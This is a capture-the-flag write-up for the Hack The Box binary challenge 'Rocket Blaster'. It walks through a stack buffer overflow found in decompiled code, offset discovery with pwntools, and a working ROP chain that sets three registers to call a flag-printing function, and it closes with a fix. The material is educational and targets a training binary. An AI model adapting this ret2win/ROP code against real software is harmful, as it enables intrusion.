








# HTB Challenge: Rocket Blaster

*"Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!"*

As an easy-level binary exploitation box, "Rocket Blaster" introduces to ret2win, and linux calling conventions. 

## Information Gathering

First, gather informations such as the ELF architecture, protections ant its purpose.

The ELF has the canary and PIE disabled, and the libraries are fully protected.

## The program

The program asks a input to the user. The user have to "Place the ammos in the right place"...

Let's see what's inside. Note that the program Segfaults on long input

## Reversing the binary

    undefined8 main(void)
    {
        char local[28];
        undefined8 local_20;
        undefined8 local_18;
        undefined8 local_10;

        banner();
        local_28 = 0;
        local_20 = 0;
        local_18 = 0;
        local_10 = 0;
        fflush(stdout);
        printf(
                "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the  right place to load the Rocket Blaster XXX!\n\n>> "
                );
        fflush(stdout);
        read(0,&local,102);
        puts("\nPreparing beta testing..");
        return 0;
    }

The program does nothing but asking an input.

The flaw occurs when the user enters an input larger that 28. The additionals characters would erase the stack.

## Finding a way to exploit

Let's fill this buffer with cyclic patterns, in order to determine the return address's offet.

This can be done with pwntools:

    def get_offset():
        p.recvline()
        p.sendline(cyclic(200, n=8))
        p.wait()
        core = p.corefile
        success(f"Offset at {cyclic_find(core.fault_addr, n=8)}")

Let's do a ret2main to confirm the feasibility.

    def ret2main():
        p.recvline()
        p.sendline(40 * b"A" + p64(rops.ret[0]) + p64(elf.symbols['main']))
        p.interactive()

Now, where do we go?

## Ret2Win

 

After analyzing the decompiled functions, I found the function "fill_ammo". It opens the flags, and performs a serie of tests on the function's args:

    void fill_ammo(long param_1,long param_2,long param_3)
    {
    ssize_t sVar1;
    char c;
    int flag_fd;
    
    flag_fd = open("./flag.txt",0);
    if (flag_fd < 0) {
        perror("\nError opening flag.txt, please contact an Administrator.\n");
                        /* WARNING: Subroutine does not return */
        exit(1);
    }
    if (param_1 != 0xdeadbeef) {
        printf("%s[x] [-] [-]\n\n%sPlacement 1: %sInvalid!\n\nAborting..\n",&DAT_00402010,&DAT_00402008,
            &DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(1);
    }
    if (param_2 != 0xdeadbabe) {
        printf(&DAT_004020c0,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(2);
    }
    if (param_3 != 0xdead1337) {
        printf(&DAT_00402100,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                        /* WARNING: Subroutine does not return */
        exit(3);
    }
    printf(&%s,&DAT_004020b6);
    fflush(stdin);
    fflush(stdout);
    while( true ) {
        sVar1 = read(flag_fd,&c,1);
        if (sVar1 < 1) break;
        fputc((int)c,stdout);
    }
    close(flag_fd);
    fflush(stdin);
    fflush(stdout);
    return;
    }

To summarize:
- param_1 (rdi) must be equal to 0xdeadbeef
- param_2 (rsi) must be equal to 0xdeadbabe
- param_2 (rdx) must be equal to 0xdead1337

If the conditions are satisfied, the program simply prints the flag.  

By checking the [linux calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), we know that we will need some gadgets.

### Finding pop gadgets

It was easy to find the required gadgets:

Pwntools also offers such functionnality, with the ROP() object.

Let's build our ropchain:

    def exploit():
        p.recvuntil(">>")
        ropchain = [
            offset * b"A",
            p64(rops.ret[0]),
            p64(rops.rdi[0]),
            p64(0xdeadbeef),
            p64(rops.rsi[0]),
            p64(0xdeadbabe),
            p64(rops.rdx[0]),
            p64(0xdead1337),     
            p64(elf.symbols['fill_ammo']),      
        ]
        p.send(flat(ropchain))
        p.interactive()

After some trials/errors, here is our flag.

## Fix

To fix this flaw, the developer have to set the third argument of read to a proper size: sizeof(buffer).